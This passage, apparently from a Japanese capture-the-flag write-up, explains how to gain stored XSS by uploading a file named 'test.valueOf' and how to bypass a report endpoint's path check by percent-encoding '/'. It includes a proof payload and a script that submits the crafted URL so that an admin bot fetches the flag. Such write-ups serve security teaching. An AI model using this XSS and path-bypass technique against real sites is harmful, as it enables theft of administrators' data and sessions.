 試しに以下のような内容のファイルを `test.valueOf` というファイル名でアップロードします。`/uploads/(UUID).valueOf` にアクセスするとアラートが表示されました。あとは `/flag` の内容を取得するようなスクリプトに変えて、admin に踏ませるだけです。

```html
<script>
alert(123);
</script>
```

### admin への報告
あとは admin に URL を報告するだけと思いきや、以下のコードを見るとわかるように報告できる URL は制限されていることがわかります。`/uploads/(UUID).valueOf/report` に POST するだけでは、パスが `/:id/report` にマッチしないらしく 404 が返ってきてしまいます。

実は `/` にパーセントエンコーディングを施せばバイパスできます。`/uploads%2f(UUID).valueOf/report` に POST すればパスは `/:id/report` にマッチし、`req.params.id` には `uploads/(UUID).valueOf` が入ります。

```javascript
// report image to admin
app.post('/:id/report', async (req, res) => {
  const { id } = req.params;
  const { token } = req.query;
/*
  const params = `?secret=${RECAPTCHA_SECRET_KEY}&response=${encodeURIComponent(token)}`;
  const url = 'https://www.google.com/recaptcha/api/siteverify' + params;
  const result = await axios.get(url);

  if (!result.data.success) {
    res.json({
      status: 'error',
      message: 'reCAPTCHA failed'
    });
    return;
  }
*/
  redis.rpush('query', id);
  redis.llen('query', (err, result) => {
    console.log('[+] reported:', id);
    console.log('[+] length:', result);
    res.json({
      status: 'success',
      length: result
    });
  })
})
```

以下のスクリプトを適当な画像表示ページで実行し、報告ボタンが押されたときに実行される処理を置き換えます。このまま報告ボタンを押すと、admin によって指定した URL にフラグが POST されました。

```javascript
async function onSubmit(token) {
  const button = document.getElementById('recaptcha');
  button.disabled = true;

  const result = await (await fetch('/uploads%2f(UUID).valueOf/report?token=' + token, {
    method: 'POST'
  })).json();
  button.textContent = '\u{1f6a9}Thanks for the report! Queue length: ' + result.length;
  button.disabled = true;
}
```
